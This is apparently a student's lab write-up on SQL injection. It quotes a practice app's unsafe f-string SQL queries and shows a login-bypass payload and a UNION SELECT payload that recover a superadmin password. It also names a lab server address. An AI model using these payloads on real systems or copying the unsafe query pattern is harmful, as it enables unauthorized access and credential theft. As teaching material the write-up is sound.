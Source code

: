 # Assign 4

SQL Injection

## Tasks

### Bypass the login page using an SQL injection query and log in as “user”

Looking at the app.py we can see the query used for the login (query = f"SELECT * FROM users WHERE username = 'user' AND password = '{password}'")

To exploit that, all we have to do is to append another SQL query like so: smth' OR '1'='1, smth could be any string, by adding OR '1'='1 we append the new query that will be true every time.

The entered query will be: "SELECT * FROM users WHERE username = 'user' AND password = 'smth' OR '1'='1'" (1 = 1 -> true).

### When logged in, use the search functionality to retrieve information from the ‘users’ table instead of ‘items’ and find the “superadmin’s” password and login in to the admin dashboard.

In search() we see that the query is: (query = f"SELECT name,category,price FROM items WHERE name = '{name}'")

In order to get information from users' table instead of items, again we will append a new query like so: smth' UNION SELECT id,username,password FROM users WHERE username = 'superadmin

The entered query will be: "SELECT name,category,price FROM items WHERE name = 'smth' UNION SELECT id,username,password FROM users WHERE username = 'superadmin'".

smth could again be any string, what UNION does is to combine the data from the result of two or more SELECT command queries into a single distinct result set, so by appending the above we get in return is the id username and password for the username superadmin, which was: 1 superadmin sup3r4dm1nP@5sw0rd

The last step is to log in as an admin, to do that we change the http://140.238.219.114:1337/search to http://140.238.219.114:1337/admin, enter the above password, and we are in!

## GCC Version

gcc (Ubuntu 11.3.0-1ubuntu1~22.04) 11.3.0